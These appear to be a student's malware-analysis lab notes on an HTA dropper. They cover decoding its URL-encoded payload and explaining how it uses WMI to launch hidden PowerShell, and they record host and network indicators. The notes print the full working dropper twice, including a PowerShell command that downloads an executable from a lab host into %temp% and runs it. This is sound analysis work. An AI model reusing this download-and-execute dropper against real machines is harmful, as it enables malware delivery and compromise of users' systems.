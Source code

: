 
## What is HTA
**HTML Application (HTA)** is a Windows file can execute HTML CSS and JavaScript on windows OUTSIDE of the browser.

## Analyzing HTAs
Malware example: `PMAT-labs/labs/3-3.OffScript-ScriptMalware/HTA/Dropper.hta.7z` 

The file contains a URL encoded payload that use the:
- `document.write()`: The `write()` method writes directly to an open (HTML) document stream.
- `unescape():` The `unescape()` function computes a new string in which hexadecimal escape sequences are replaced with the characters that they represent.

![[Pasted image 20250201000424.png]]

Now take the hex and pass on cyber chef with `form hex` rule and percent delimiter.
![[Pasted image 20250201000927.png]]

this is the payload code

```html
<html>
<head>
<title> >_ </title>
<center><h1>404 Not Found</h1></center>
<script language="VBScript">
Sub window_onload
	const impersonation = 3
	Const HIDDEN_WINDOW = 12
	Set Locator = CreateObject("WbemScripting.SWbemLocator")
	Set Service = Locator.ConnectServer()
	Service.Security_.ImpersonationLevel=impersonation
	Set objStartup = Service.Get("Win32_ProcessStartup")
	Set objConfig = objStartup.SpawnInstance_
	Set Process = Service.Get("Win32_Process")
	Error = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object System.Net.WebClient).DownloadFile('http://tailofawhale.local/TellAndSentFor.exe','%temp%\jLoader.exe');Start-Process '%temp%\jLoader.exe'", null, objConfig, intProcessID)
	window.close()
end sub
</script>
</head>
</html>
```


## Invoking WMI & Executing PowerShell

This is the VB script executed by the HTML payload
```bash
Sub window_onload
	const impersonation = 3
	Const HIDDEN_WINDOW = 12
	Set Locator = CreateObject("WbemScripting.SWbemLocator")
	Set Service = Locator.ConnectServer()
	Service.Security_.ImpersonationLevel=impersonation
	Set objStartup = Service.Get("Win32_ProcessStartup")
	Set objConfig = objStartup.SpawnInstance_
	Set Process = Service.Get("Win32_Process")
	Error = Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object System.Net.WebClient).DownloadFile('http://tailofawhale.local/TellAndSentFor.exe','%temp%\jLoader.exe');Start-Process '%temp%\jLoader.exe'", null, objConfig, intProcessID)
	window.close()
end sub
```

- `Locator.ConnectServer()`: Its used to connect the code of `WMI` windows service
- `Service.Security_.ImpersonationLevel=impersonation`: Its used to impersonate the user that launch the program
- `Service.Get("Win32_Process")`: Create `WMI` object use to manage process.
- `Process.Create("cmd.exe /c powershell.exe -windowstyle hidden (New-Object System.Net.WebClient).DownloadFile('http://tailofawhale.local/TellAndSentFor.exe','%temp%\jLoader.exe');Start-Process '%temp%\jLoader.exe'`: Create cmd shell that execute the powrshell command that download file from  `http://tailofawhale.local/TellAndSentFor.exe` and executed that.



## Dynamic Analysis
![[Pasted image 20250201195412.png]]
### Host signature
After execution we can find the malware under `%TEMP%` path.
![[Pasted image 20250201195900.png]]
### Network signature
Using wireshark we can see the malware try to contact the flowing domain 
`tailofawhale.local`
and the `http://tailofawhale.local/TellAndSentFor.exe` URI to install the malware.
![[Pasted image 20250201195513.png]]

### WMI process
There is a instance of `svchost.exe` under  the `winint.exe`. In the `svhost.exe` we can fin the `winprvse.exe`. This is the way that Windows invokes `VMI` to execute process. Infect under the `winprvse.exe` we can find the `powershell` process and the `jLoader.exe` malware.
![[Pasted image 20250201200359.png]]
